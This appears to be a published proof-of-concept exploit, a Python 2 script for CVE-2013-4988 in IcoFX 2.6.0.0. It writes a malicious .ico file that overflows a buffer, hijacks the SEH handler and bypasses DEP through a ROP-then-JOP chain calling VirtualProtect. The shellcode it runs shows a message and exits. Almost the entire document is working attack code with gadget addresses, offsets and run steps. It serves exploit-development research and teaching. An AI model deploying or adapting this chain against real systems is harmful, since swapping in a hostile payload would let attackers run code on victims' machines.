 EXP
---

    # Exploit Title: IcoFX 2.6 - '.ico' Buffer Overflow SEH + DEP Bypass using JOP
    # Date: 2020-05-20
    # Exploit Author: Austin Babcock
    # Vendor Homepage: https://icofx.ro/
    # Software Link: https://drive.google.com/file/d/1SONzNStA_W3pAPU5IUvsYS3z0jYymEZn/view?usp=sharing
    # Version: 2.6.0.0
    # Tested on: Windows 7 Ultimate x64
    # CVE: CVE-2013-4988
    # Steps: 1. Run script 2. Open application 3. Open maliciousJOP.ico via file -> open dropdown menu


    # Payload Length: 1626 bytes

    #While this is an older CVE, it is very rare to have a JOP chain available for a binary which is what this exploit attempts to demonstrate.
    #Gadgets were found using the JOP ROCKET tool which is available at https://github.com/Bw3ll/JOP_ROCKET

    #This exploit utilizes ROP to set up a JOP chain that will perform multiple stack pivots and call VirtualProtect().
    #JOP utilizes a dispatcher gadget (#add ecx, dword ptr [eax] #jmp dword ptr [ecx]) to executes gadgets found within the dispatch table.
    #The ECX register will hold the address of the dispatch table, which will be modified each time the dispatcher gadget executes.
    #After each modification, ECX will point to the address of the next gadget in the JOP chain and "jmp dword ptr [ecx]" executes that gadget.
    #Each functional gadget must end in a jmp or call to a register containing the address of the dispatcher gadget.
    #In this exploit, ecx is used to hold the address of the dispatch table, and edi is used to hold the dispatcher gadget address.
    #The dispatch table is located just after the shellcode in this exploit's payload. The address is loaded into ECX using ROP to programatically generate the correct address..

    #!/usr/bin/python2
    import struct

    # Stuff we'll need for creating our malicious .ico
    header = "\x00\x00\x01\x00\x00\x6F"
    option = "\x02\x00\x00\x00"
    pad2 = "\x41"*8
    nseh = "\xfe\xff\xff\xff"

    base = 0x400000
    # SEH Overwrite with stack pivot - ADD ESP,0x800 # POP EBX # RET
    seh = struct.pack('<L', 0x0044f012)


    ###########################

    #### LOAD DISPATCH TABLE ADDR INTO ECX ####
    #The dispatch table's address is calculated based off of the value of EBP, which is related to the paylaod's location in memory.
    jopSetup = struct.pack('<I',0x00580ca8) # POP ECX # RETN <-
    jopSetup += struct.pack('<I',0x0000000) #clear ecx
    jopSetup += struct.pack('<I', base + 0x000e8643) # ADD ECX,EBP # RETN
    jopSetup += struct.pack('<I', base + 0x00007c03) # POP EAX # RETN
    jopSetup += struct.pack('<I',0x00009f0) # offset for disp table
    jopSetup += struct.pack('<I', base + 0x00007c63) # ADD ECX,EAX # RETN # ecx = disp table

    #### LOAD ADD VALUE PTR INTO EAX ####
    #Since the dispatcher gadget uses the instruction "add ecx, dword ptr[eax]" to modify the address of the dispatch table,
    #eax must point to a valid location in memory containing the value we want to add to ecx each time the dispatcher executes.
    #In this case, eax will point to an address containing the value 0x00000004.
    jopSetup += struct.pack('<I', base + 0x0029c000) # MOV EAX,ECX # POP ESI # RETN <-
    jopSetup += struct.pack('<I',0x0000000) # junk
    jopSetup += struct.pack('<I', base + 0x0059d50d) # DEC EAX # RETN
    jopSetup += struct.pack('<I', base + 0x0059d50d) # DEC EAX # RETN
    jopSetup += struct.pack('<I', base + 0x0059d50d) # DEC EAX # RETN
    jopSetup += struct.pack('<I', base + 0x0059d50d) # DEC EAX # RETN

    #### LOAD WRITABLE ADDR OFFSET INTO EBX ####
    #The gadget used for stack pivoting has an extra instruction (or byte ptr [ebx - 0x781703bb]) that cannot be avoided.
    #In order to ensure this instruction does not cause problems, ebx-0x781703bb must point to a writable section of memory so
    #that the instruction does not cause an access violation. This section makes sure ebx contains a compatible value.
    jopSetup += struct.pack('<I', base + 0x00390000) # POP EBX # RETN
    jopSetup += struct.pack('<I', 0x78c0609a) # needed for stack pivot JOP gadget -- offset to writable addr

    #### LOAD DISPATCHER ADDR INTO EDI ####
    jopSetup += struct.pack('<I',base + 0x00051423) # POP EDI # RETN
    jopSetup += struct.pack('<I',base + 0x6d81) # disp gadget address
    #Dispatcher:
    #add ecx, dword ptr [eax]   0x406d81 (offset 0x6d81)
    #jmp dword ptr [ecx]

    #### BEGIN JOP -- PERFORM STACK PIVOT ####
    jopSetup += struct.pack('<I', base + 0x1623) # JMP EDI
    table = struct.pack('<I',0x44444444) # padding
    #PIVOT 40 BYTES
    #Last POP will put VP ptr in EBP
    for i in range(10):
      table += struct.pack('<I', 0x588b9b) #pop ebp # or byte ptr [ebx - 0x781703bb], cl # jmp edi <-

    #### CALL VirtualProtect() ####
    #The derferencing gadget used to call VirtualProtect() has an offset of -0x71 bytes from ebp.
    #To account for this, when the pointer for VirtualProtect() is loaded into ebp, 0x71 bytes are added to it in order
    #to ensure that ebp-0x71 is the correct value for the pointer. This can be seen below.
    table += struct.pack('<I',0x4c8eb7) #jmp dword ptr [ebp - 0x71] <-
    # VP ptr + offset for jmp ebp gadget
    vpPtr = struct.pack('<I',0x00bf6668 + 0x71)

    ############################################################################################


    msg_sc = ("\x31\xD2\xB2\x30\x64\x8B\x12\x8B\x52\x0C\x8B\x52\x1C\x8B\x42\x08\x8B\x72\x20\x8B\x12\x80"
              "\x7E\x0C\x33\x75\xF2\x89\xC7\x03\x78\x3C\x8B\x57\x78\x01\xC2\x8B\x7A\x20\x01\xC7\x31\xED"
              "\x8B\x34\xAF\x01\xC6\x45\x81\x3E\x46\x61\x74\x61\x75\xF2\x81\x7E\x08\x45\x78\x69\x74\x75"
              "\xE9\x8B\x7A\x24\x01\xC7\x66\x8B\x2C\x6F\x8B\x7A\x1C\x01\xC7\x8B\x7C\xAF\xFC\x01\xC7\x68"
              "\x50\x21\x20\x01\x68\x78\x20\x4A\x4F\x68\x49\x63\x6F\x46\x89\xE1\xFE\x49\x0B\x31\xC0\x51"
              "\x50\xFF\xD7")

    # ExitProcess(0);
    exit_sc = "\x31\xc0\x50\xb8\x00\x60\xbf\x00\xff\x10"


    addesp = "\x81\xec\x00\x10\x00\x00" # Stack pivot at start of shellcode
    shellcode = addesp + msg_sc + exit_sc
    nopwrap = "\x90"*(0x168 - len(shellcode)) + shellcode + "\x90"*0x20


    # padding until VP parameter location
    paramPad = "C" *(36)

    paramPad += vpPtr

    ### VIRTUAL PROTECT PARAMETERS ###
    vpParams = struct.pack('<I',0x18f744) #return addr
    vpParams += struct.pack('<I',0x18f744) #lpAddr
    vpParams += struct.pack('<I',0x500) #dwSize
    vpParams += struct.pack('<I',0x40) #flNewProt
    vpParams += struct.pack('<I',0x00bf4d0a) #lpfOldProtect


    # pad1 holds JOP Setup chain, VP() Parameters, Shellcode, Value for ADD, and Dispatch Table
    pad1 = "A"*580 + jopSetup + paramPad +  vpParams + nopwrap
    addVal = struct.pack('<I',0x00000004) # how much for disp gadget to add to Dispatch Table address
    pad1 += addVal
    pad1 += table # dispatch table
    pad1 += "B"*(0x640-len(pad1))

    # Piece together our exploit
    payload = header + pad1 + option + pad2 + nseh + seh
    # Write out our malicious file
    writeFile = open ("maliciousJOP.ico", "wb")
    writeFile.write( payload )
    writeFile.close()
